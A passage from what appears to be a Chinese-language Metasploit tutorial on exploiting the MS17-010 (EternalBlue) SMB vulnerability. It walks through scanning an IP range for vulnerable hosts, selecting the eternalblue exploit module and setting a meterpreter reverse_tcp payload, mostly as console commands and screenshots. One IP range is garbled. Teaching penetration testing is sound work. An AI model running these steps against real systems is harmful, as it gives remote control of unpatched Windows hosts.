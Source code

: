 ![](https://p3.ssl.qhimg.com/t01cb7b94630bc6c4eb.png)

寻找MS17_010漏洞： search ms17_010

![](https://p3.ssl.qhimg.com/t0110f77c72fd2ac8b6.png)

这里找到了两个模块，第一个**辅助模块**是探测主机是否存在MS17_010漏洞，第二个是漏洞利用模块，我们先探测哪些主机存在漏洞

### Auxiliary辅助探测模块

该模块不会直接在攻击机和靶机之间建立访问，它们只负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试。

输入命令：use auxiliary/scanner/smb/smb_ms17_010

![](https://p5.ssl.qhimg.com/t017f5159a9b8b9cfae.png)

查看这个模块需要配置的信息：show options

![](https://p0.ssl.qhimg.com/t018ae45cc9ac281ab0.png)

RHOSTS 参数是要探测主机的ip或ip范围，我们探测一个ip范围内的主机是否存在漏洞

输入：set RHOSTS 192.168.125.125-129.168.125.140

![](https://p4.ssl.qhimg.com/t0180c7bf0d169789e1.png)

输入：exploit 攻击，这里有+号的就是可能存在漏洞的主机，这里有3个主机存在漏洞

![](https://p0.ssl.qhimg.com/t0149a04badd9e74610.png)

### Exploit漏洞利用模块

然后我们就可以去利用漏洞攻击了，选择漏洞攻击模块： use exploit/windows/smb/ms17_010_eternalblue

查看这个漏洞的信息：info

![](https://p3.ssl.qhimg.com/t01c1f21ec58a181b90.png)

查看可攻击的系统平台，这个命令显示该攻击模块针对哪些特定操作系统版本、语言版本的系统：show targets

这里只有一个，有些其他的漏洞模块对操作系统的语言和版本要求的很严，比如MS08_067，这样就要我们指定目标系统的版本的。如果不设置的话，MSF会自动帮我们判断目标操作系统的版本和语言(利用目标系统的指纹特征)

![](https://p4.ssl.qhimg.com/t01ef0d809f01b677c7.png)

### Payload攻击载荷模块

攻击载荷是我们期望在目标系统在被渗透攻击之后完成的实际攻击功能的代码，成功渗透目标后，用于在目标系统上运行任意命令。

查看攻击载荷：show payloads

该命令可以查看当前漏洞利用模块下可用的所有Payload

![](https://p0.ssl.qhimg.com/t01fd726c8da20bc322.png)

设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp
